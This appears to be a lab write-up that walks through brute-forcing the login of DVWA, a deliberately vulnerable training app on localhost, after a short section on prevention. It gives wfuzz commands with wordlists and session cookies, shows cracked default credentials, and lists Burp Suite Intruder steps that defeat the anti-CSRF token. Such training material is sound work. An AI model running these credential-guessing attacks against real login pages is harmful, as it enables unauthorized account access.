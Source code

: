 # Brute Force

### What is Bruce Force Attck?
A brute force attack is a type of cyber attack where an attacker attempts to guess a password or encryption key by trying every possible combination until the correct one is found. Brute force attacks are often used against systems with weak passwords or encryption keys, and can be very effective if the attacker has enough time and resources to try every possible combination.

There are several ways to prevent brute force attacks:

- Use strong passwords: Using complex and unique passwords can make it more difficult for attackers to guess the correct password.
- Limit login attempts: By limiting the number of login attempts allowed, you can prevent attackers from trying every possible combination.
- Use multi-factor authentication: Multi-factor authentication requires users to provide more than one form of authentication to access an account, making it more difficult for attackers to gain access.
- Implement rate-limiting: Rate-limiting restricts the number of requests that can be made to a system within a certain timeframe, which can prevent attackers from launching large-scale brute force attacks.
- Use intrusion detection systems: Intrusion detection systems can detect and block brute force attacks in real-time.
- Keep software up-to-date: Ensuring that software and systems are up-to-date can help prevent vulnerabilities that attackers can exploit for brute force attacks.

By implementing these measures, you can reduce the risk of a successful brute force attack.

## How to implements

#### Low level of complexity using Burp Suite CE:

1. Use Burp Suite Communit Edition to intercept a request.
2. Create a intruder to intercepted request.
3. Go to positions introducer section and add new payload marker to password.
4. Go to payload introducer section and load a list the passwords.
5. Go to settings introducer section and add a Grep - Match "Welcome"
6. Back to positions section and Start attack.

With these simple steps, we can check the Grep - Match column of the responses to find out whether any response returned true for the welcome message.

#### Low level of complexity, attack all users, using Wfuzz:

We can use man wfuzz to show the accepted parameters:

```sh
man wfuzz
```
And wfuzz -h to search for help:
```sh
wfuzz -h
```

For the first test we can try:

```sh
wfuzz -c -w ~/Downloads/passwords.txt -b 'security=low; PHPSESSID=7hs0bko62dkjmc4qvd7l8ll6i6' 'http://127.0.0.1/DVWA/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login'
```
Some explanations, -c parameters is to coloring the response, -b specify a cookie for the requests, repeat option for several cookies, -w parameters specify the path of the passwords list and the lasted parameter always is the full url that we can attack. 

> Note: We have change the password parameter in url to FUZZ

We get a return like this:

| Response | Word | Payload |
| ------ | ------ |  ------ |
| 200 | 249 W | "123456" |
| 200 | 249 W | "111111" |
| 200 | 249 W | "abc123" |
| 200 | 249 W | "qwerty" |
| 200 | 253 W | "password" |
| 200 | 249 W | "12345678" |

Now we try find the different response, but this can be hard if we work with a lot passwords list. So we can use the fiter to better return visualization. Just add --hs and --sw parameters to filter responset without 'Username and/or password incorrect.' in the body resopnse.

```sh
wfuzz --sw 253  --hs 'Username and/or password incorrect.' -c -w ~/Downloads/passwords.txt -b 'security=low; PHPSESSID=7hs0bko62dkjmc4qvd7l8ll6i6' 'http://127.0.0.1/DVWA/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login'
```

We get a return like this:

| Response | Word | Payload |
| ------ | ------ |  ------ |
| 200 | 253 W | "password" |

After that we can visualize the responses with more easily. It's a perfect time to remove the admin static parameter and try to add dinamic login information. To do that, we neeed to change the -w parameter to -z and add a new userNames.txt files.

```sh
wfuzz --sw 253  --hs 'Username and/or password incorrect.' -c -z file,/home/igor/Downloads/userNames.txt -z file,/home/igor/Downloads/passwords.txt -b 'security=low; PHPSESSID=7hs0bko62dkjmc4qvd7l8ll6i6' 'http://127.0.0.1/DVWA/vulnerabilities/brute/?username=FUZZ&password=FUZ2Z&Login=Login'
```
> Note: We have change the user parameter in url to FUZZ
> Note: We have change the password parameter in url to FUZ2Z

We get a return like this:

| Response | Word | Payload |
| ------ | ------ |  ------ |
| 200 | 253 W | "ADMIN - password" |
| 200 | 253 W | "Admin - password" |
| 200 | 253 W | "admin - password" |
| 200 | 253 W | "gordonb - abc123" |
| 200 | 253 W | "pablo - letmein" |
| 200 | 253 W | "smithy - password"|

#### Medium level of complexity, attack all users, using Wfuzz:

At this level, responses are slower than at the low level. So we can use the same approach at the low level, do the search for different word lengths. We can remove the --sw and --hs filter parameters to try to make this return faster. 

> Note: We have change the cokkies parameters security and PHPSESID.

Once we find a different word length, just add the filter parameters to improve the data visualization.

#### High level of complexity, attack all users, using Wfuzz:

At this level, we receive a kind of cookie in the get response. The server waits for this same cookie in the url parameters to accept the next http request. So if we don't send this new valid parameter (user token) in the url, our request will not be accepted. To solve this problem, we can try to find the previously sent user_token, copy it and send it in the url parameter of the user token.

> Note: We have change the cokkies parameters security and PHPSESID. 

To make to that, we need to use Burp Suite again. So, the step by step to solve the DVWA Brute Force in high level is:

1. Use Burp Suite Communit Edition to intercept a request.
2. Create a intruder to intercepted request.
3. Go to positions introducer tab set "Choose attack type" to PitchFork (This attack use a multiple payloads, and itarates through all payloads simultaneusly) and add two payloads markers to password and user_token.
4. Go to payload introducer tab and load a list to the first password payload, in the second payload set the payload type to recursive grep.
5. Go to Resource Pool tab and create a new resource changing only the maximum concurrent requests to 1.
6. Go to settings introducer tab and add "incorrect" in Grep Match, select the user_token value a in Grep Extract and click in Start at offset and End at the fixed length radio buttons, finaly in Redirections section set click in Always radio button.
7. Click in Start attack.

Following these steps, we can extract the user_token and replace the url parameter so that our requests are accepted by the server.